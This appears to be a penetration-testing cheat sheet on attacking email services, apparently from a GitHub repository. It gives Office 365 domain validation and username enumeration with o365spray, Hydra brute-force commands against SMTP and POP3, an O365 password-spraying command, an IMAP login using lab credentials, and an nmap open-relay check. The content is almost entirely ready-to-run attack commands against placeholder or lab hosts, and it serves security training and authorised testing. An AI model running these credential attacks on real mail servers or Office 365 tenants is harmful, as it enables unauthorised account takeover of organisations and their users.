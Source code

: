 ### Cloud Enumeration

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments). Let's first validate if our target domain is using Office 365.

```shell
python3 o365spray.py --validate --domain msplaintext.xyz
```

Now, we can attempt to identify usernames.

```shell
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz  
```

### Password Attacks

Hydra
```shell
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
```

```shell
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
```

```shell
hydra -l <username> -P /path/to/passwords.txt smtp://STMIP -f
```

```shell
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

O365 Spray - Password Spraying
```shell
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

Interact with service
```
telnet 10.129.9.20 143
11 login "marlin@inlanefreight.htb" "poohbear"
11 OK LOGIN completed
12 select "INBOX"
```
### Protocol Specifics Attacks

#### Open Relay

With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.

```shell
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
